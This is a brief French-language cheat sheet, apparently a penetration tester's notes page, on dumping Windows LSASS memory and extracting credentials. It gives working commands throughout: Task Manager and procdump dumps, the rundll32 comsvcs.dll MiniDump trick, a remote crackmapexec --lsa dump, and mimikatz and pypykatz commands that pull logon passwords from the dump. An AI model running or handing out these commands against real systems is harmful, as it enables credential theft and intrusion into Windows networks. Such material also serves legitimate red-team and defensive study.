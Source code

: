 ```yaml
---
public: true
---
```


## DUMP de LSASS

## Localement
### Génération d'un dump via le gestionnaire de tâches

Bouton droit sur  le processus > Créer un fichier dump

Le fichier est créé dans le dossier %TEMP%

### Via Procdump.exe (sysinternals)

```shell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### Rundll32.exe & Comsvcs.dll
- Trouver le pid de lsass :
	- `tasklist /svc`
	- `Get-Process lsass`
- Créer le dump (pid = 672) :
	- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
```

## Extraction d'informations d'identification

```
# depuis windows dans mimikatz : (ne touche qu'au dump, pas au precessus)
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords

# depuis linux
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```
